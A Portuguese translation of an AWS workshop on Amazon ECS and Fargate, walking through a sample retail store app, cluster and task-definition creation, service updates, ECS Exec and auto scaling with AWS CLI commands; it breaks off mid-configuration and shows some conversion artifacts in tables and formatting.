
Amazon ECS e AWS Fargate

<h2 id="sobre-o-amazon-ecs"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/10-about-ecs#about-amazon-ecs">Sobre
o Amazon ECS</a></h2>

<a href="https://aws.amazon.com/ecs/"><u>O Amazon ECS</u></a> é um
serviço de orquestração de contêineres totalmente gerenciado que ajuda a
implantar, gerenciar e dimensionar facilmente aplicativos em
contêineres. Ele se integra profundamente ao restante da plataforma AWS
para fornecer uma solução segura e fácil de usar para executar cargas de
trabalho de contêineres na nuvem e agora em sua infraestrutura com o
Amazon ECS Anywhere.

<h2 id="sobre-o-aws-fargate"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/10-about-ecs#about-aws-fargate">Sobre
o AWS Fargate</a></h2>

<a href="https://aws.amazon.com/fargate/"><u>O AWS Fargate</u></a> é
um mecanismo de computação sem servidor e pago conforme o uso que
permite que você se concentre na criação de aplicativos sem gerenciar
servidores. O AWS Fargate é compatível com o Amazon Elastic Container
Service ECS e o Amazon Elastic Kubernetes Service EKS.

<h2 id="benefícios-do-aws-fargate"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/10-about-ecs#benefits-of-aws-fargate">Benefícios
do AWS Fargate</a></h2>
<blockquote>

 <strong>Gerencie seus aplicativos, não
a infraestrutura</strong> Implemente e gerencie seus aplicativos, não a
infraestrutura. Elimine a sobrecarga operacional para dimensionar,
aplicar patches, ajudar a proteger e gerenciar servidores.

 <strong>Monitore seus aplicativos para
obter métricas e insights</strong> Monitore seus aplicativos por meio de
integrações internas com serviços da AWS, como o Amazon CloudWatch
Container Insights, ou colete métricas e registros com ferramentas de
terceiros.

 <strong>Aumente a segurança por meio
do isolamento</strong>: aumente a segurança por meio do isolamento da
carga de trabalho por design. Com o AWS Fargate, cada carga de trabalho
é executada em sua própria instância de computação de uso único e de
locatário único. Cada carga de trabalho é isolada por um limite de
virtualização, com cada tarefa do Amazon ECS ou pod do Kubernetes em
execução em uma instância recém-provisionada. Consulte o <u>whitepaper
d</u><a
href="https://d1.awsstatic.com/whitepapers/AWS_Fargate_Security_Overview_Whitepaper.pdf"><u>e</u></a>
<a
href="https://d1.awsstatic.com/whitepapers/AWS_Fargate_Security_Overview_Whitepaper.pdf"><u>seguran</u>ç
<u>a do AWS Fargate</u></a> para obter mais detalhes sobre a arquitetura
do AWS Fargate

 <strong>Otimize o custo</strong> Pague
somente pelos recursos de computação utilizados, sem despesas iniciais.
Otimize ainda mais os custos com planos de economia, Fargate Spot ou
processadores AWS Graviton.



</blockquote>

Aplicativo de amostra

A maioria dos laboratórios deste workshop usa um aplicativo de
amostra comum para fornecer componentes reais de contêineres com os
quais podemos trabalhar durante os exercícios. O aplicativo de amostra
modela um aplicativo simples de loja on-line, no qual os clientes podem
navegar em um catálogo, adicionar itens ao carrinho e concluir um pedido
por meio do processo de checkout.

O aplicativo tem vários componentes e dependências:

<blockquote>



</blockquote>
<table>
<colgroup>
<col style="width: 16%" />
<col style="width: 83%" />
</colgroup>
<thead>
<tr>
<th><strong>Componente</strong></th>
<th><strong>Descrição</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td>IU</td>
<td>Fornece a interface de usuário front-end e agrega chamadas de API a
vários outros serviços.</td>
</tr>
<tr>
<td>Catálogo</td>
<td>API para listagens e detalhes de produtos</td>
</tr>
<tr>
<td>Carrinho</td>
<td>API para carrinhos de compras de clientes</td>
</tr>
<tr>
<td>Checkout</td>
<td>API para orquestrar o processo de checkout</td>
</tr>
<tr>
<td>Pedidos</td>
<td>API para receber e processar pedidos de clientes</td>
</tr>
<tr>
<td>Ativos estáticos</td>
<td>Serve ativos estáticos, como imagens relacionadas ao catálogo de
produtos</td>
</tr>
</tbody>
</table>

No decorrer dos laboratórios, utilizaremos diferentes recursos do ECS
para tirar proveito de serviços e recursos mais amplos da AWS para nossa
loja de varejo.

Você pode encontrar o código-fonte completo do aplicativo de amostra
no <a
href="https://github.com/aws-containers/retail-store-sample-app"><u>GitHub</u></a>.

<h2 id="empacotamento-de-cargas-de-trabalho-de-contêineres"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/20-introduction/200-sample-application#packaging-container-workloads">Empacotamento
de cargas de trabalho de contêineres</a></h2>

Antes que uma carga de trabalho possa ser implantada no ECS, ela deve
ser empacotada como uma imagem de contêiner e publicada em um registro
de contêiner. Tópicos básicos sobre contêineres como esse não são
abordados como parte deste workshop, e o aplicativo de amostra tem
imagens de contêineres já disponíveis no Amazon Elastic Container
Registry para os laboratórios que realizaremos hoje.

A tabela abaixo fornece links para o repositório público do ECR para
cada componente, bem como o Dockerfile que foi usado para criar cada
componente.

<table>
<colgroup>
<col style="width: 34%" />
<col style="width: 39%" />
<col style="width: 26%" />
</colgroup>
<thead>
<tr>
<th><strong>Componente</strong></th>
<th><strong>ECR Repositório público</strong></th>
<th><blockquote>

<strong>Dockerfile</strong>

</blockquote></th>
</tr>
</thead>
<tbody>
<tr>
<td>IU</td>
<td><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-ui"><u>Repositório</u></a></td>
<td><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/ui/Dockerfile"><u>Dockerfile</u></a>

</blockquote></td>
</tr>
</tbody>
</table>
<table>
<colgroup>
<col style="width: 34%" />
<col style="width: 39%" />
<col style="width: 26%" />
</colgroup>
<thead>
<tr>
<th>Catálogo</th>
<th><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-catalog"><u>Repositório</u></a></th>
<th><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/catalog/Dockerfile"><u>Dockerfile</u></a>

</blockquote></th>
</tr>
</thead>
<tbody>
<tr>
<td>Carrinho de compras</td>
<td><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-cart"><u>Repositório</u></a></td>
<td><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/cart/Dockerfile"><u>Dockerfile</u></a>

</blockquote></td>
</tr>
<tr>
<td>Checkout</td>
<td><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-checkout"><u>Repositório</u></a></td>
<td><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/checkout/Dockerfile"><u>Dockerfile</u></a>

</blockquote></td>
</tr>
<tr>
<td>Pedidos</td>
<td><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-orders"><u>Repositório</u></a></td>
<td><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/orders/Dockerfile"><u>Dockerfile</u></a>

</blockquote></td>
</tr>
<tr>
<td>Ativos</td>
<td><a
href="https://gallery.ecr.aws/aws-containers/retail-store-sample-assets"><u>Repositório</u></a></td>
<td><blockquote>

<a
href="https://github.com/aws-containers/retail-store-sample-app/blob/main/src/assets/Dockerfile"><u>Dockerfile</u></a>

</blockquote></td>
</tr>
</tbody>
</table>

Estrutura do laboratório

Este workshop foi projetado para ser modular, de modo que você possa
adaptar a experiência aos resultados de aprendizado desejados. Ele é
composto de vários laboratórios discretos e, embora não seja necessário
executar todos os exercícios de laboratório, você deve concluir cada
laboratório individual que escolher.

Os laboratórios individuais são indicados no menu de navegação à
esquerda com o símbolo 📘 da seguinte forma:



Alguns laboratórios têm pré-requisitos, que serão exibidos no início
de cada laboratório da seguinte forma:



<blockquote>

📘 Fundamentos

</blockquote>
<h2 id="componentes-principais-do-amazon-ecs"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic#amazon-ecs-core-components">Componentes
principais do Amazon ECS</a></h2>



<blockquote>

<strong>O cluster</strong> é um agrupamento lógico de serviços e
tarefas

<strong>O serviço</strong> é um grupo de tarefas idênticas

<strong>A tarefa</strong> é um ou mais contêineres que executam uma
função específica do aplicativo <strong>A definição da</strong> tarefa
descreve as necessidades da tarefa CPU, memória, imagens de contêineres,
tipo de rede, IAM etc.)

Cluster do Amazon ECS

Neste laboratório, criaremos os principais componentes do Amazon ECS,
incluindo um cluster do ECS, a definição de tarefas e o serviço do ECS.
O objetivo final é observar um contêiner localizado atrás do ALB
Application Load Balancer).

Crie um cluster do Amazon ECS chamado
<strong>retail-store-ecs-cluster</strong>:

aws ecs create-cluster --cluster-name retail-store-ecs-cluster
--region $AWS_REGION Você deve receber a seguinte saída na linha de
comando.

{

"cluster": {

"clusterArn":
"arn:aws:ecs:us-west-2:111111111111:cluster/retail-store-ecs-cluster",

"clusterName": "retail-store-ecs-cluster",

"status": "ACTIVE",

"registeredContainerInstancesCount": 0,

"runningTasksCount": 0,

"pendingTasksCount": 0,

"activeServicesCount": 0,

"statistics": [],

"tags": [],

"settings": [

{

"name": "containerInsights",

"value": "disabled"

}

],

"capacityProviders": [],

"defaultCapacityProviderStrategy": []

}

}

<a
href="https://console.aws.amazon.com/ecs/v2/clusters/retail-store-ecs-cluster"><u>Abra
o console do Amazon ECS</u></a>

Agora que o cluster foi criado, navegue até a próxima etapa para
criar uma definição de tarefa do ECS que usaremos para implantar o
serviço de interface do usuário

</blockquote>
<h1 id="definições-de-tarefas">Definições de tarefas</h1>
<blockquote>

A definição de tarefa é um projeto que descreve como um contêiner (ou
contêineres) deve ser executado no Amazon ECS. Ela inclui várias
configurações, como a imagem do contêiner a ser usada, a CPU e a memória
necessárias, as portas a serem abertas e as variáveis de ambiente
necessárias.

Crie a definição de tarefa a ser usada para o <strong>serviço de
interface do usuário</strong>:

</blockquote>

cat &lt;&lt; EOF &gt; retail-store-ecs-ui-taskdef.json

{

"family": "retail-store-ecs-ui",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

],

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole"

}

EOF

aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-ui-taskdef.json

Nesta <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task_definition_parameters.html"><u>página</u></a>,
você pode se aprofundar nos significados detalhados dos parâmetros
dentro da definição de tarefa do ECS. No entanto, vamos abordar
brevemente alguns deles nesta página.

<table>
<colgroup>
<col style="width: 22%" />
<col style="width: 77%" />
</colgroup>
<thead>
<tr>
<th><strong>Parâmetro</strong></th>
<th><strong>Descrição</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td>família</td>
<td>Uma família de definição de tarefa é semelhante a um nome para
várias versões da definição de tarefa, especificada com um número de
revisão.</td>
</tr>
<tr>
<td>requiresCompatibilities</td>
<td>O tipo de inicialização especificado para uma definição de tarefa
determina onde o Amazon ECS inicia a tarefa ou o serviço.</td>
</tr>
<tr>
<td>taskRoleArn</td>
<td>Uma função de tarefa para uma função de IAM permite que os
contêineres chamem as APIs do AWS especificadas nas políticas associadas
em seu nome.</td>
</tr>
<tr>
<td>executionRoleArn</td>
<td>Uma função de execução de tarefa que concede ao agente de contêiner
do Amazon ECS permissão para fazer chamadas de API do AWS em seu
nome.</td>
</tr>
<tr>
<td>networkMode</td>
<td>O modo de rede do Docker a ser usado para os contêineres na tarefa.
O modo de rede para o ECS Fargate é restrito ao modo awsvpc.</td>
</tr>
<tr>
<td>CPU, memória</td>
<td>No caso da Fargate, é necessário especificar valores dentro de SKUs
predefinidos.</td>
</tr>
<tr>
<td>containerDefinitions</td>
<td>A definição do contêiner inclui informações detalhadas, como a
imagem do contêiner, mapeamentos de portas e configurações de
verificação de integridade para o contêiner a ser usado em uma tarefa do
ECS.</td>
</tr>
</tbody>
</table>

Podemos recuperar a definição da tarefa usando a CLI do AWS

aws ecs describe-task-definition --task-definition
retail-store-ecs-ui

Serviços

Um serviço ECS permite executar e manter um número especificado de
instâncias de uma definição de tarefa simultaneamente em um cluster do
Amazon ECS. Se alguma dessas tarefas falhar ou parar por qualquer
motivo, o agendador de serviços do ECS inicia outra instância de sua
definição de tarefa para substituí-la, mantendo o número desejado de
tarefas no serviço. Isso proporciona alta disponibilidade ao seu
aplicativo.

Os serviços do ECS são usados para gerenciar aplicativos de longa
duração, microsserviços ou outros componentes de software que exigem
alta disponibilidade. Os serviços no ECS podem ser integrados ao ELB
Elastic Load Balancing) para distribuir o tráfego uniformemente entre as
tarefas no serviço, fornecendo uma maneira perfeita de implementar,
gerenciar e dimensionar seus aplicativos em contêineres.

Para sua conveniência, temos recursos pré-construídos relacionados ao
ALB Application Load Balancer), incluindo o ouvinte, o grupo de destino
e o grupo de segurança com antecedência.

Vamos criar o serviço ECS

export UI_TARGET_GROUP_ARN=$(aws elbv2 describe-target-groups --names
ui-application \

--query 'TargetGroups[0].TargetGroupArn' --output text)

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name ui \

--task-definition retail-store-ecs-ui \

--desired-count 2 \

--launch-type FARGATE \

--load-balancers
targetGroupArn=${UI_TARGET_GROUP_ARN},containerName=application,containerPort=8080
\

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],securityGroups=[${UI_SG_ID}],assignPublicIp=DISABLED}

Pode levar vários minutos para que o ECS implemente o serviço e o
registre como estável. Enquanto isso acontece, você pode explorar o
serviço no console do ECS

<a
href="https://console.aws.amazon.com/ecs/v2/clusters/retail-store-ecs-cluster/services/ui"><u>Abra
o console do Amazon ECS</u></a>

Você também pode aguardar a estabilização do serviço com a CLI do AWS
desta forma:

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services ui

Quando o serviço estiver estável, você poderá visualizar as tarefas
em execução na CLI

aws ecs describe-tasks \

--cluster retail-store-ecs-cluster \

--tasks $(aws ecs list-tasks --cluster retail-store-ecs-cluster
--query 'taskArns[]' --output text) \

--query "tasks[*].[group, launchType, lastStatus, healthStatus,
taskArn]" --output table

And you can retrieve the load balancer URL like so:

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB} ; echo

Cole o URL em um navegador da Web para acessar o aplicativo e você
verá essa tela: 

Depois de criar os componentes fundamentais, a arquitetura dos
serviços configurados até o momento é mostrada a seguir.



Atualização de um serviço

Nesta seção, demonstraremos como atualizar um serviço ECS. Isso é
usado em cenários como a alteração da imagem do contêiner ou a
modificação da configuração.

As variáveis de ambiente são um dos principais mecanismos usados para
configurar cargas de trabalho de contêineres, independentemente do
orquestrador. Modificaremos a configuração do serviço de interface do
usuário passando uma nova variável de ambiente que modificará o
comportamento da carga de trabalho. Nesse caso, usaremos a configuração
RETAIL_UI_BANNER, que adicionará um banner à página.

As variáveis de ambiente são expressas nas definições de tarefas do
ECS com um nome e um valor da seguinte forma:

<blockquote>

"environment": [

{

"name": "RETAIL_UI_BANNER",

"value": "We've updated the UI service!"

}

]

Atualize a <strong>definição da tarefa da interface do
usuário</strong> com a variável de ambiente:

cat &lt;&lt; EOF &gt; retail-store-ecs-ui-updated-taskdef.json

{

"family": "retail-store-ecs-ui",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"name": "application",

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp",

"appProtocol": "http"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"environment": [

{

"name": "RETAIL_UI_BANNER",

"value": "We've updated the UI service!"

}

],

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

]

}

EOF

</blockquote>

Agora vamos usar o comando register-task-definition para atualizar a
definição da tarefa. aws ecs register-task-definition --cli-input-json
file://retail-store-ecs-ui-updated-taskdef.json

É importante observar que as definições de tarefas do ECS são
imutáveis, o que significa que, após serem criadas, não podem ser
modificadas. Em vez disso, o comando acima criará uma nova revisão da
definição de tarefa, que é uma cópia da definição de tarefa atual com os
novos valores de parâmetros substituindo os existentes.

Você pode verificar se agora temos várias revisões de definição de
tarefas com o seguinte comando:

aws ecs list-task-definitions --family-prefix retail-store-ecs-ui

O resultado mostrará todas as revisões da família de definição de
tarefas da interface do usuário:

<blockquote>

{

</blockquote>

"taskDefinitionArns": [

"arn:aws:ecs:us-west-2123456789012:task-definition/retail-store-ecs-ui:1",
"arn:aws:ecs:us-west-2123456789012:task-definition/retail-store-ecs-ui:2"

<blockquote>

]

}

</blockquote>

Agora precisamos atualizar o serviço ECS para usar a nova revisão da
definição de tarefa:

aws ecs update-service --cluster retail-store-ecs-cluster --service
ui --task-definition retail- store-ecs-ui

Aguarde até que o ECS implemente as alterações no serviço:

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services ui

Agora atualize o navegador e você verá que o banner foi adicionado
com base em nossas variáveis de ambiente:



Ativar o ECS Exec

Nesta seção, habilitaremos <strong>o</strong> recurso <strong>ECS
Exec</strong> para executar comandos ou obter um shell para um contêiner
em execução na instância do EC2 ou Fargate. A ativação do ECS Exec é
benéfica para o gerenciamento operacional e também vantajosa do ponto de
vista da segurança. Ele oferece acesso controlado aos contêineres em
execução nas tarefas do ECS, permitindo a solução de problemas segura,
auditada e interativa sem a necessidade de SSH nos hosts.

Ao aproveitar as políticas e funções do IAM, é possível controlar
rigorosamente quem tem acesso para executar comandos dentro dos
contêineres, melhorando assim a postura geral de segurança. Além disso,
todos os comandos executados por meio do ECS Exec são registrados no
CloudWatch, fornecendo uma trilha de auditoria para fins de conformidade
e monitoramento. <a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ecs-exec.html"><u>Mais</u></a>
<a
href="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ecs-exec.html"><u>informações
podem ser encontradas aqui</u></a> .

As etapas são as seguintes:

<blockquote>

 Definir a função IAM para o
usuário

 Definir a função de IAM para a função
de tarefa do ECS  Configurar o
ambiente

 Habilitar o Amazon ECS Exec no
serviço

 Conectar-se à tarefa do ECS

</blockquote>
<h2 id="definir-a-funç-ão-de-iam-para-o-usuário"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/600-ecs-exec#set-the-iam-role-for-the-user">Definir
a função de IAM para o usuário</a></h2>

Como vamos usar o ECS Exec do nosso IDE, precisamos garantir que a
função de IAM anexada ao IDE tenha as políticas de IAM necessárias.
Vamos atualizar a função de IAM associada à instância do EC2 que executa
nosso IDE adicionando a seguinte política em linha:

cat &lt;&lt; EOF &gt; ecs-exec-command-policy.json

{

"Version": "2012-10-17",

"Statement": [

{

"Effect": "Allow",

"Action": [

"ecs:ExecuteCommand",

"ecs:DescribeTasks"

],

"Resource": [

"arn:aws:ecs:${AWS_REGION}:${ACCOUNT_ID}:task/retail-store-ecs-cluster/*",

"arn:aws:ecs:${AWS_REGION}:${ACCOUNT_ID}:cluster/*"

]

}

]

}

EOF

aws iam put-role-policy \

--role-name `aws sts get-caller-identity --query 'Arn' | cut -d'/'
-f2` \

--policy-name AmazonECSExecCommand \

--policy-document <a
href="file://ecs-exec-command-policy.json">file://ecs-exec-command-policy.json</a>

Expandir para verificar se a política está configurada
corretamente.

Neste laboratório, adicionamos apenas a política de IAM mais básica,
mas podem ser necessárias políticas de IAM adicionais para utilizar
vários recursos do ECS Exec, como os registros do CloudWatch.

<h2 id="section"></h2>
<h2 id="section-1"></h2>
<h2 id="section-2"></h2>
<h2 id="section-3"></h2>
<h2 id="section-4"></h2>
<h2 id="section-5"></h2>
<h2 id="section-6"></h2>
<h2 id="definir-a-funç-ão-de-iam-para-a-funç-ão-de-tarefa-do-ecs"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/600-ecs-exec#set-the-iam-role-for-the-ecs-task-role">Definir
a função de IAM para a função de tarefa do ECS</a></h2>

O ECS Exec precisa de uma função de IAM de tarefa para a comunicação
SSM. Criamos previamente essa função de IAM para a tarefa <strong>UI
Service</strong>. Portanto, vamos apenas verificar suas permissões.

aws iam get-role-policy \

--role-name retailStoreEcsTaskRole \

--policy-name `aws iam list-role-policies --role-name
retailStoreEcsTaskRole --query 'PolicyNames[0]' --output text`

O resultado será o seguinte:

{

"RoleName": "retailStoreEcsTaskRole",

"PolicyName": "RetailStoreEcsTaskRoleDefaultPolicy3AF87919",

"PolicyDocument": {

"Version": "2012-10-17",

"Statement": [

{

"Action": [

"ssmmessages:CreateControlChannel",

"ssmmessages:CreateDataChannel",

"ssmmessages:OpenControlChannel",

"ssmmessages:OpenDataChannel"

],

"Resource": "*",

"Effect": "Allow"

}

]

}

}

<h2 id="configurar-o-ambiente"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/600-ecs-exec#setup-the-environment">Configurar
o ambiente</a></h2>

Precisamos da CLI do AWS e do <u>plug-in do Session Manager para a
CLI do AWS</u>. Esses dois utilitários já foram instalados no IDE para
este workshop. Consulte a documentação vinculada acima para fazer isso
em seu próprio ambiente.

<h2 id="habilitar-o-amazon-ecs-exec-na-tarefa"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/600-ecs-exec#enable-amazon-ecs-exec-on-the-task">Habilitar
o Amazon ECS Exec na tarefa</a></h2>
<blockquote>

Atualize o <strong>serviço de interface do usuário</strong> para
ativar o Amazon ECS Exec --enable-execute- command:

</blockquote>

aws ecs update-service \

--cluster retail-store-ecs-cluster \

--service ui \

--task-definition retail-store-ecs-ui \

--enable-execute-command \

--force-new-deployment

Aguarde até que o ECS implemente as alterações no serviço:

aws ecs wait services-stable --cluster retail-store-ecs-cluster
--services ui

<blockquote>

Execute o seguinte comando para selecionar uma das <strong>tarefas da
interface do usuário</strong> em execução com o enableExecuteCommand
ativado:

ECS_EXEC_TASK_ARN=$(aws ecs list-tasks --cluster
retail-store-ecs-cluster \

--service-name ui --query 'taskArns[]' --output text | \

xargs -n1 aws ecs describe-tasks --cluster retail-store-ecs-cluster
--tasks | \

jq -r '.tasks[] | select(.enableExecuteCommand == true) | .taskArn' |
\

head -n 1)

</blockquote>

Verifique o resultado usando o comando echo.

echo $ECS_EXEC_TASK_ARN

<h2 id="conectar-se-à-tarefa-do-ecs"><a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic/600-ecs-exec#connect-to-the-ecs-task">Conectar-se
à tarefa do ECS</a></h2>

Inicie sua sessão interativa /bin/bash na tarefa em execução.

if [ -z ${ECS_EXEC_TASK_ARN} ]; then echo "ECS_EXEC_TASK_ARN is not
correctly configured!"; else

aws ecs execute-command --cluster retail-store-ecs-cluster \

--task $ECS_EXEC_TASK_ARN \

--container application \

--interactive \

--command "/bin/bash"

fi

Você deverá ver um resultado como este:

<blockquote>

<strong>The Session Manager plugin was installed successfully. Use
the AWS CLI to start a session.</strong>

<strong>Starting session with SessionId:
ecs-execute-command-vvdysulqbcz2txr2d262sw2s64</strong>

<strong>bash-5.2#</strong>

<strong>Within a new session, you can execute the following
commands:</strong>

<strong>cat /etc/os-release</strong>

<strong>df -h</strong>

<strong>Terminate your session:</strong>

<strong>exit</strong>

<strong>Importante</strong>

</blockquote>

Você deve ter concluído os seguintes capítulos como pré-requisitos
para este laboratório:  <a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/30-basic"><u>Fundamentos</u></a>

Como uma única instância do Fargate corresponde a uma única tarefa do
ECS, você precisa

especificar a CPU e a memória da tarefa durante a criação da
definição da tarefa. Portanto, é fundamental dimensionar corretamente as
tarefas do Fargate para garantir que elas possam desempenhar suas
funções com o nível de desempenho desejado. Se uma tarefa tiver
dificuldades devido à insuficiência de CPU ou memória para executar suas
funções, isso indica que a tarefa não está dimensionada corretamente e
pode exigir recursos adicionais. Você pode avaliar com precisão as
necessidades do seu aplicativo fazendo medições de desempenho,
conduzindo testes de carga abrangentes ou observando atentamente as
principais métricas.

Quando estiver confiante de que suas tarefas têm o tamanho adequado,
você poderá dimensionar horizontalmente implantando tarefas adicionais
para lidar com mais solicitações. O escalonamento

horizontal é o método preferido para escalonar cargas de trabalho
nativas da nuvem e em contêineres.

O Amazon ECS oferece a capacidade de ajustar automaticamente o número
desejado de tarefas em seu serviço, um recurso conhecido como
<strong>Service Auto Scaling</strong>. O ECS Service Auto Scaling usa
<strong><a
href="https://docs.aws.amazon.com/autoscaling/application/userguide/what-is-application-auto-scaling.html"><u>o
Application Auto Scalin</u>g</a></strong> para fornecer essa
funcionalidade. E, para ser uma métrica de dimensionamento útil e
eficaz, essa métrica precisa ser <strong>proporcional</strong>. Por
proporcional, entende- se que ela deve ter um comportamento específico.
Por exemplo, se mantivermos o número de tarefas em nosso serviço
estável. E se a carga dobrar, o valor da métrica também deverá
dobrar.

No contexto do ECS, ao utilizar instâncias do EC2, também é
importante considerar o uso de <u>provedores de capacidade</u> para
gerenciar a capacidade das instâncias do EC2, além do ECS Service Auto
Scaling. No entanto, este capítulo se concentra principalmente no
Fargate, portanto, não abordaremos os provedores de capacidade do ECS em
detalhes.

Escala automática de serviço

O Amazon ECS oferece uma integração perfeita com o <strong>Amazon
CloudWatch</strong> para facilitar o dimensionamento eficiente dos
serviços do ECS com base em métricas em tempo real. As métricas do
Amazon ECS são transmitidas ao CloudWatch em intervalos de um minuto,
permitindo um monitoramento preciso e decisões de dimensionamento
oportunas. Quando essas métricas excedem os limites definidos em sua
política de dimensionamento, o CloudWatch aciona um alarme que ajusta o
número desejado de tarefas em seu serviço de acordo. Esse processo de
ajuste dinâmico aumenta a capacidade desejada durante os eventos de
scale-out e a diminui durante os eventos de scale-in, garantindo a
utilização ideal dos recursos.

O Amazon ECS oferece três estratégias sofisticadas de dimensionamento
de serviços:

<blockquote>

<strong>Escalonamento de rastreamento de metas</strong> Esse método
visa manter a estabilidade de uma métrica de dimensionamento
especificada, ajustando automaticamente o número de tarefas para atender
a um valor-alvo predefinido. O escalonamento de rastreamento de metas é
preferido por sua simplicidade e baixos requisitos de manutenção, o que
o torna a opção ideal para empresas que buscam eficiência operacional
sem intervenção manual constante.

<strong>Dimensionamento por etapas</strong> O escalonamento por
etapas permite maior controle sobre as ações de escalonamento. Os
usuários podem selecionar métricas, definir valores-limite e definir
ajustes de etapas para especificar quantos recursos devem ser
adicionados ou subtraídos. Ele também permite períodos de avaliação de
violação personalizáveis para alarmes de métricas, proporcionando uma
abordagem personalizada para lidar com cargas de trabalho variáveis de
forma eficaz.

<strong>Escalonamento programado</strong> O escalonamento programado
é melhor utilizado quando as ações de escalonamento podem ser
antecipadas com base em padrões de demanda conhecidos. Essa estratégia é
perfeita para aplicativos com flutuações previsíveis de tráfego,
permitindo o gerenciamento proativo de recursos para garantir a
estabilidade e o desempenho do serviço durante os horários de pico.

</blockquote>

Esses métodos de dimensionamento permitem que as organizações
aproveitem todo o potencial do ECS, otimizando o custo e o desempenho ao
alinhar a alocação de recursos com a demanda real.

Escala de rastreamento de metas

Nesta seção, configuraremos o dimensionamento automático de serviços
do ECS usando o Target Tracking Scaling. Isso inclui determinar para
quais serviços configurar o dimensionamento

automático de aplicativos e aplicar as políticas de dimensionamento
apropriadas.

Vamos registrar o serviço de interface do usuário como um alvo
dimensionável com o Application Auto Scaling. Esse comando define o
intervalo de dimensionamento do serviço de interface do usuário de um
mínimo de 2 a um máximo de 10 tarefas.

<blockquote>

aws application-autoscaling register-scalable-target \

 --service-namespace ecs \

--scalable-dimension ecs:service:DesiredCount \

--resource-id service/retail-store-ecs-cluster/ui \

--min-capacity 2 \

--max-capacity 10

</blockquote>

de escalonamento para nosso destino de escalonamento.

Comece criando um arquivo de configuração JSON para a política de
dimensionamento. Essa configuração utiliza o tipo de métrica predefinida
de <strong>contagem de solicitações por destino</strong> relacionado ao
balanceador de carga de aplicativos que roteia as solicitações para o
serviço ECS. Nesse caso, nosso objetivo é obter 1.500 solicitações por
tarefa (ou destino) do ECS.

Essa política de dimensionamento é apenas um exemplo. Você deve
entender o perfil de dimensionamento de suas cargas de trabalho
específicas para compreender as métricas e os limites de dimensionamento
adequados antes de ativar o dimensionamento automático.

cat &lt;&lt; EOF &gt; ui-scaling-policy.json

{

"TargetValue": 1500,

"PredefinedMetricSpecification": {

